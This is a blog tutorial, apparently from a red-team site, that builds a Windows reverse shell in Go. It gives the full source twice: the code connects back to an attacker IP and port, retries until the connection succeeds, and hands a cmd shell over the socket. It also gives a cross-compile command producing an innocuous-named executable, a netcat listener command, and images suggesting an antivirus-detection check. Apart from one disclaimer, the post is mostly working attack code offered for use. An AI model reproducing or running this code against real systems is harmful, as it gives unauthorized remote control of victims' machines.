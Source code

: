 ```yaml
---
layout: post
title: "2024-06-19 Reverse Shell in Go"
date: 2024-06-19
categories: Windows Reverse Shell
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```

# Building a Reverse Shell in Go

In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

## Understanding the Code

Let's break down the code step by step:

 ### Package and Imports

```go
package main

import (
    "fmt"
    "net"
    "os"
    "os/exec"
    "time"
)
```

- `package main`: Indicates that this Go file is the main package, which can be executed.
- `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

### Variables

```go
var (
    a1 = "192.168.23.129"
    a2 = 4444
)
```

- `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

### Function `e1()`

```go
func e1() {
    if a1 == "0.0.0.0" || a2 == 0 {
        fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
        os.Exit(1)
    }
}
```

- `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

### Function `e2()`

```go
func e2() net.Conn {
    var c net.Conn
    var err error
    for {
        c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
        if err == nil {
            break
        }
        time.Sleep(5 * time.Second)
    }
    return c
}
```

- `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

### Function `e3()`

```go
func e3(c net.Conn) {
    cmd := exec.Command("cmd")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    err := cmd.Start()
    if err != nil {
        fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
        os.Exit(1)
    }
    cmd.Wait()
}
```

- `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

### Main Function

```go
func main() {
    e1()
    c := e2()
    e3(c)
}
```

- The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

### Running the Code

To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

```bash
nc -nlvp 4444
```

Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


### Virustotal Scan

![alt text](https://raw.githubusercontent.com/psyrun/psyrun.github.io/master/_posts/go-revshell.png)


 ### session

![alt text](https://raw.githubusercontent.com/psyrun/psyrun.github.io/master/_posts/go-revshell-2.png)


#peacout #opensource


